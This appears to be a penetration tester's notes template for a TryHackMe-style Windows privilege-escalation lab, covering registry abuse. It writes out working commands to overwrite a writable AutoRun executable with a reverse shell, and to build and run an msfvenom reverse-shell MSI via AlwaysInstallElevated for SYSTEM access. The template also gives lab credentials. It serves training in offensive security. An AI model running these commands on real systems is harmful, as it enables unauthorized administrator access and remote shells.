

# 8- Registry
**1- AutoRuns**
Query the registry for AutoRun executables:
```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
results:
```powershell

```


Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:
```powershell
C:\<file-path>\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```
results:
```powershell

```


Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:
```powershell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```
results:
```powershell

```

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!  
```powershell
rdesktop 10.10.180.16
```
results:
```powershell

```


**2- AlwaysInstallElevated**
Query the registry for AlwaysInstallElevated keys:
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
results:
```powershell

```


Note that both keys are set to 1 (0x1).

On Kali, we have already generated a reverse shell Windows Installer (reverse.msi) using msfvenom and sent it already to the windows machine. 
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=135 -f msi -o reverse.msi
```
results:
```powershell

```

Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:  
```powershell
sudo nc -nvlp 135
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
results:
```powershell

```

Reference:
[[Windows Privilege esclation-Registry-Original Template]]
[1- reverse shell generation and file transfer](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/1-%20reverse%20shell%20generation%20and%20file%20transfer.md)
[Windows PrivEsc tryhackme](6-%20Zettelkasten/Windows%20PrivEsc%20tryhackme.md)

